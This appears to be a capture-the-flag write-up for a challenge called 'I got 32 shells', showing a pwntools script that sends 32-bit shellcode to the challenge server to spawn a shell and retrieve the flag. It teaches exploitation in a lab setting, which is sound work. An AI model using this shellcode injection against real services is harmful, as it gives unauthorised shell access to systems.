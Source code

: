 # I got 32 shells
![image](https://user-images.githubusercontent.com/34862954/164886114-9ef66d3d-e92d-412e-9d3e-e198e9b5d6e3.png)

# Approach
In this ques, the we have to inject a shellcode into the prompt and it will execute the shellcode.\
The ELF file provided was 32 bit.

Let's use pwntools for this as it makes it very easier.

```python
from pwn import *


conn = remote('wannahack.copsiitbhu.co.in',2430)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()

payload = (shellcraft.i386.sh())
print("payload: ", payload)
payload = asm(payload, arch='i386')
conn.send(payload)
print(conn.recvline())
print(conn.recvline())
conn.interactive()
```

`shellcraft.i386.sh()` will provide the 32-bit assembly instructions to enter into the shell.

`asm(payload, arch='i386')` will assemble the assembly code into bytes.

On executing this, you will get the access to bash shell.<br>
![image](https://user-images.githubusercontent.com/34862954/164888296-0dba1733-3b8d-4c94-9b9b-a860d350a28a.png)

In this way, you get the flag.<br>
Flag: `wannahack{5h311c0d3_0n_32b1t_1s_50_01d_:(}`<br>
Enjoi!!
